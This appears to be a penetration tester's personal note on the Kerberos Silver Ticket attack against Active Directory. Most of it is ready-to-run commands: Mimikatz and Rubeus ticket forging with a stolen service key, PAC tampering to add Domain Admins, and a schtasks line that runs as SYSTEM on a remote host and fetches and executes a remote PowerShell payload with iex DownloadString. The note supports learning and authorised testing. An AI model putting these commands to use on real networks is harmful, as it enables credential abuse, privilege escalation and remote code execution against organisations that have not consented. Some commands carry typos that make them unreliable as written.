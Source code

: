```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- Way more silent and powerful compared to the Golden Ticket attack because we are not interacting with the Domain Controller. We only interact with the service.
- A trade-off of this attack is that, the persistence duration is less than of the Golden Ticket attack, as the machine account (response for running services like win-rm, smb etc.) usually has a password rotation duration of 30 days.
- The key can be dumped from the lsass process memory or by [Kerberoast](Kerberoast.md), or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden
	/user:administrator # username for which ST is generated
	/domain:<domain> # fqdn of the domain
	/sid:<sid> # sid of the domain
	/target:<server> # fqdn of the target server
	/service<service> # SPN of the service for which ST will be generated
	/aes256:<key> # aes key of the service account
	/id:<id> /group:<group> # Optional ID and groups
	/ptt # inject the ticket in current session
	# or
	/ticket # save the ticket on disk
	

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
```
### Rubeus
```powershell
Rubeus.exe
	silver
	/service:<spn> # SPN of the service
	/aes256:<key> # kerberos key of the service account of the above service
	/user:<username> # username for which the service account is created
	/ldap # make ldap queries to fetch details
	/ptt # Inject the key in current process memory
	[/printcmd] # print the rubues command to crate the same ticket with information fetched from ldap
```
### Services
- `HTTP` for WIM-RM
- `cifs` for SMB
- `HOST` for scheduling tasks
- `RPCSS` and `HOST` or WMI


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
